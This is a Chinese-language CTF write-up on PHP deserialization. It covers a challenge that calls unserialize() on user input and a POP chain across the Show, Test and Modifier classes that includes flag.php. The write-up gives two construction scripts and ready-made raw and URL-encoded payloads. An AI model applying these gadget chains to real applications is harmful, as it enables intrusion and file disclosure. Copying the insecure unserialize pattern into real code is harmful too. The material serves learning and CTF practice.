


```php
<?php  
//flag is in flag.php  
highlight_file(__FILE__);  
error_reporting(0);  
class Modifier {  
    private $var;  
    public function append($value)  
    {  
        include($value);  
        echo $flag;  
    }  
    public function __invoke(){        $this->append($this->var);  
    }  
}  
  
class Show{  
    public $source;  
    public $str;  
    public function __toString(){  
        return $this->str->source;  
    }  
    public function __wakeup(){  
        echo $this->source;  
    }  
}  
  
class Test{  
    public $p;  
    public function __construct(){        $this->p = array();  
    }  
  
    public function __get($key){        $function = $this->p;  
        return $function();  
    }  
}  
  
if(isset($_GET['pop'])){    unserialize($_GET['pop']);  
}  
?>
```
分析：
-1.已知flag的位置，并且`class modifier`出现了`echo $flag`的标识，推测需要触发`echo`调用`$flag`
-2.需要给append赋值为`flag.php`，则需要调用到当前类的invoke，意味着需要对象被当作函数触发
-3.紧接着需要实例化一个对象并且被当作函数`xx()`触发，定位到`class Test`里面的最后`$function()
-4.`$function`会被赋值为`$p`的值，需要考虑get触发，即调用不存在的属性`
-5.`class Show`里面的`tostring`则有一连串调用，将`str`实例化一个对象`Test`即可
-6.调用`tostring`，则剩下`wakeup`没被调用，此时只需要反序列化即可调用，并且将`Show->source`赋值为当前类即可

构造如下
1.
```php
$a = new Show();
$a->source = new Show();//echo对象，触发show里面的tostring
  
$b = new Test();
$a->source->str = $b;
//触发test的get方法，也就是调用了不存在的对象，因此执行了后续赋值.注意，这里需要紧接上步$a->source，source现在是新的对象，因此需要再次调用source里面的str，而不能直接用$a->str

//这里调用了tostring后this是source这个新的类，因此需要在source里面继续赋值str属性

$c = new Modifier();
$b ->p = $c;//触发modifier的invoke方法


//序列化对象
echo serialize($a);
echo "\n";
echo urlencode(serialize($a));
$s = serialize($a);

//注意构造时候将私有属性var直接更改
echo "\n";
echo unserialize($s);
```
这种方法，在给`source`赋值的时候直接`new`实例化对象，因此在`tostring`里面调用`str`的时候`$this`指的是新的`source`这个对象，则需要`$a->source->str = $b;`

2.
```php
$a = new Show();
$a->source = $a;//echo对象，触发show里面的tostring,这里直接把source赋值为a即当前对象即可

  

$b = new Test();
$a->str = $b;

  

$c = new Modifier();
$b ->p = $c;//触发modifier的invoke方法

  

//序列化对象
echo serialize($a);
echo "\n";
echo urlencode(serialize($a));
$s = serialize($a);

//注意构造时候将私有属性var直接更改
echo "\n";
echo unserialize($s);
```
这种方法直接把`source`赋值为原来的`$a`，后续只需要调用`$a->str = $b;`

两种方式细微差别，最后的序列化字符串也不同
注意：私有属性需要url编码后提交
```php
1.
O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"Modifiervar";s:8:"flag.php";}}}s:3:"str";N;}

O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BN%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A13%3A%22%00Modifier%00var%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D

2.
O:4:"Show":2:{s:6:"source";r:1;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"Modifiervar";s:8:"flag.php";}}}

O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Br%3A1%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A13%3A%22%00Modifier%00var%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```
都可以正常使用





